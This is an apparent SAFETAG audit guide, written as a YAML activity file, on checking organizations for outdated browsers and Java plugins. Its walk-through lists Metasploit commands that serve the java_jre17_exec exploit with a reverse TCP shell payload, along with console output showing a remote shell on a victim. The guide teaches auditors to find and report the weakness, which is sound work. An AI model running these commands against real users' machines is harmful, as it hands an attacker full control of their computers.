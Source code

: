 ```yaml
---
title: Check Browser and Plugin Vulnerabilities
position: 50
approaches:
  - Technical
authors:
  - SAFETAG
skills_trained: []
remote_options:
  - with-support
time_required_minutes: 30
organization_size_under: 25
summary: |
  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in-use have updated plugins and are themselves
  updated.
short_summary: Ensure that browsers in-use have updated plugins and are themselves updated.
materials_needed: |
  * Metasploit
walk_through: |
  ###### Outdated Java browser plugins

  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.

  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:

  ```
  $ msfconsole

  I love shells --egypt

       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post
  + -- --=[ 307 payloads - 30 encoders - 8 nops

  msf > use exploit/multi/browser/java_jre17_exec

  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
  PAYLOAD => java/shell/reverse_tcp

  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
  LHOST => 192.168.1.123

  msf exploit(java_jre17_exec) > set SRVPORT 8081
  SRVPORT => 8081

  msf exploit(java_jre17_exec) > set URIPATH java_test
  URIPATH => java_test

  msf exploit(java_jre17_exec) > run
  [*] Exploit running as background job.
  ```

  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:

  ```
  [*] Started reverse handler on 192.168.1.123:4444

  msf exploit(java_jre17_exec) |

  [*] Using URL: http://0.0.0.0:8081/java_test
  [*] Local IP: http://192.168.1.123:8081/java_test
  [*] Server started.

  msf exploit(java_jre17_exec) |

  <remote shell|
  ```

  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
considerations: ""
skills_required: []
overview: Use direct access, interviewing, walk-throughs, or penetration testing
  methods to identify vulnerable browsers.
recommendations: |
  **Sample Recommendation for outdated Java**

  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.

  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.

  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
---
```

